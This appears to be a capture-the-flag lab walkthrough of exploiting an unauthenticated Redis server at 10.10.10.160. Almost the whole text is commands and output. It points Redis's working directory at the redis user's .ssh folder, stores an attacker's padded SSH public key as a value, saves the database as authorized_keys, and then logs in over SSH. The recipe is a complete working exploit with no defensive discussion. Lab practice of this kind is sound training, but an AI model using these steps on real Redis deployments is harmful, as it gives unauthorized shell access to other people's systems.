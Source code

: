 # install tool 

    apt-get install redis-tools

# test redis connection

    root@kali# nc 10.10.10.160 6379
    keys *
    *0

# connect using redis-tools

    redis-cli -h 10.10.10.160 
    10.10.10.160:6379> keys *
    (empty list or set)

# pwd in redis

    10.10.10.160:6379> config get dir
    1) "dir"
    2) "/var/lib/redis"

# cd and pwd in redis

    10.10.10.160:6379> config set dir ./.ssh
    OK
    10.10.10.160:6379> config get dir
    1) "dir"
    2) "/var/lib/redis/.ssh"

# set ssh pub key 

    root@kali# (echo -e "\n\n"; cat ~/id_rsa_generated.pub; echo -e "\n\n") > spaced_key.txt

# upload ssh pub key

    root@kali# cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set 0xdf
    OK

# save pub key

    10.10.10.160:6379> config set dbfilename "authorized_keys"
    OK
    10.10.10.160:6379> save
    OK

# ssh -i ~/id_rsa_generated redis@10.10.10.160